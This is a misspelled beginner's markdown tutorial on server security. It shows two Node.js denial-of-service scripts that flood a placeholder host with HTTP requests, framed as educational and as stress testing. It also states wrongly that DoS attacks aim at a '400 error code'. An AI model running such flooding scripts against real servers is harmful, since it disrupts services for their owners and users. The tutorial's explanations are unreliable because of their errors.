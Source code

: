 
## building good vs bad servers
the concept of a good vs bad server relates to a servers ability to be penatrated by outside influences. 
later on i will talk about DDOs, DOS, sql injuction, and more, but basicly if any of those thingngs can happen to your sereve it is bad
when buildig apis we will see how the integrqation of web based tokens (barers) can prefent attacks.
We will also look at how encryping sessins while ok, dose not garnetee server evecency or security. 

#### bad

##### server attacks
via a whole slue of langages we can attack servers.
*Note* this section is educational

###### DOS and DDOS
A dos attack is where a programmer flouds a server with the intention of reciving a [400 error code](#400), effectively stopping that serves. DDos attaces are the same thing, but are disptrabuted, alloing the attacks to happen from arround theworld. 
DDos attacs are much harder to preven has trafic could come from anyware, making dedicated server prefention dificult. In addition DDOs attackes are often done by infectiong millions of computers with malware. For this project i will not show how to build this.
using js (DOS)
```node

// Basic DoS attack in Node.js
// This infinitely sends requests to a target without waiting for responses
while (true) {
    fetch("https://target-server.com").then(res => {
        console.log("Request sent");
    }).catch(err => {
        console.log("Error, retrying...");
    });
}
```
using node.js (DOS)
``` node
// More sophisticated version using concurrent requests
// This creates multiple concurrent connections, potentially overwhelming the server
const axios = require('axios');

const targetUrl = "https://target-server.com";
const concurrentRequests = 100;
const intervalMs = 10;

function sendRequest() {
    axios.get(targetUrl)
        .catch(error => console.log("Request failed, continuing..."));
}

// Launch multiple requests in short intervals
setInterval(() => {
    for (let i = 0; i < concurrentRequests; i++) {
        sendRequest();
    }
}, intervalMs);

```
> DOS attacks are valid ways to stress test your server, but make sure you understand the implactions on youre server when running them.
